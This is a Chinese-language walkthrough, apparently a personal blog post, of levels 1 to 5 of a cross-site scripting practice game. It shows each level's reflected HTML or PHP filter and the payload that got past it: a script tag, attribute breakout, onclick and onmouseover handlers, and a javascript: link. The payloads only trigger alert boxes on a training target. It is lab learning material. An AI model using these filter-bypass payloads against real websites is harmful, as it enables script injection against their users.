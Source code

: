 ```yaml
---
layout: post
title: "XSS_Game-level-1-5" 
subtitle: "XSS_Game-level-1-5"
date: 2019-06-25
author: ppbibo
category: Notes
---
```




[TOC]

## Level-1 无过滤

```bash
http://xss.tesla-space.com/level1.php?name=<script>alert(1)</script>
```

![xss-level-1](/static/img/xss-level-1.png)

没有任何效验直接弹窗。



## Level-2 无过滤

继续尝试上一关的**payload**进行测试，源代码回显如下：

```html
<body>
<h1 align=center>欢迎来到level2</h1>
<h2 align=center>没有找到和&lt;script&gt;alert(1)&lt;/script&gt;相关的结果.</h2><center>
<form action=level2.php method=GET>
<input name=keyword  value="<script>alert(1)</script>">
<input type=submit name=submit value="搜索"/>
</form>
</center><center><img src=level2.png></center>
<h3 align=center>payload的长度:25</h3><h2 align=center>By:HACK学习</h2>
</body>
```

出现了两处第一处被转义如下：

```<``` 被转义成 ```&lt;```

```>``` 被转义成 ```&gt; ```



第二处  ```input ``` 标签没有任何效验 , 闭合value标签编写 **payload ** ```"><script>alert(1)</script>``` 成功弹窗。

![xss-level-2-1](/static/img/xss-level-2.png)



## Level-3 利用 HTML 事件属性

先尝试上一关的 **payload** 源代码回显如下：

```html
<h2 align=center>没有找到和&quot;&gt;&lt;script&gt;alert(1)&lt;/script&gt;相关的结果.</h2><center>
<form action=level3.php method=GET>
<input name=keyword  value='&quot;&gt;&lt;script&gt;alert(1)&lt;/script&gt;'>
<input type=submit name=submit value=搜索 />
</form>
```

发现两处都被转义了如下：

```"``` 被转义成 ```&quot;```

利用 ```onclick``` 点击事件来完成弹窗 ,  **payload **```' onclick=alert(1)<'```

![xss-level-3](/static/img/xss-level-3.png)



## Level-4 利用 HTML 事件属性

尝试上一关的 **payload** 插入，源代码回显如下：

```html
<h2 align=center>没有找到和' onclick=alert(1)&lt;'相关的结果.</h2><center>
<form action=level4.php method=GET>
<input name=keyword  value="' onclick=alert(1)'">
<input type=submit name=submit value=搜索 />
</form>
```

发现单引号改为了双引号，利用 **payload ** ``` "onmouseover="alert(111)```  成功弹窗。

![xss-level-4](/static/img/xss-level-4.png)

*Tag：*```当指针移动到标签 onmouseover 上就会触发 ``` 。



## Level-5 链接触发

看了下php源码代码如下：

```php
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level5.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
```

发现将```get```的参数都转换成了小写，防止了大小写绕过，将所有的```<script``` 替换成了``` <scr_ipt ```并且将 ```on ```替换成了``` o_n``` ，利用一种链接的形式来调用 JS （而且 html 语言并不是那么严格）**payload** ```"><a href="javascript:alert(1)">点我有惊喜～```  成功弹窗。

![xss-level-5](/static/img/xss-level-5.png)



## Level-6 

持续更新...

[靶场地址](http://xss.tesla-space.com)
[参考1](https://comydream.github.io/2019/05/18/xss-20-game/)
[参考2](https://mp.weixin.qq.com/s/4m1p1NyOhT0nlStyeYsXlw)